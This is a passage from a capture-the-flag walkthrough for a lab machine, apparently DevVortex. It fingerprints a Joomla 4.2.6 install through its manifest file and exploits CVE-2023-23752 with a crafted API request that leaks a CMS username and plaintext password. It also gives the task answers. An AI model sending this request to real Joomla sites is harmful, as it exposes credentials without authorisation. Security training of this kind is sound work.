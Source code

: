 Let's check the `manifest` file which usually is located at `administrator/manifests/files/joomla.xml`. And it works, now we have the version number.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<extension type="file" method="upgrade">
	<name>files_joomla</name>
	<author>Joomla! Project</author>
	<authorEmail>admin@joomla.org</authorEmail>
	<authorUrl>www.joomla.org</authorUrl>
	<copyright>(C) 2019 Open Source Matters, Inc.</copyright>
	<license>GNU General Public License version 2 or later; see LICENSE.txt</license>
	<version>4.2.6</version>
	<creationDate>2022-12</creationDate>
	<description>FILES_JOOMLA_XML_DESCRIPTION</description>
	...
```

----------
## Task 5

What is the 2023 CVE ID for an information disclosure vulnerability in the version of Joomla running on DevVortex?

## Solution 5

Now let's just search for this version of Joomla for any vulnerabilities.

And this yields a result of `CVE-2023-23752` which is an improper access check that allows unauthorized access to web-service endpoints.

-----------
## Task 6

What is the lewis user's password for the CMS?

## Solution 6

Let's use the vulnerability.

By going to `http://dev.devvortex.htb/api/index.php/v1/config/application?public=true` and this shows a `json` file which has in the plain-text the username `lewis` and the password `P4ntherg0t1n5r3c0n##`.

```json
```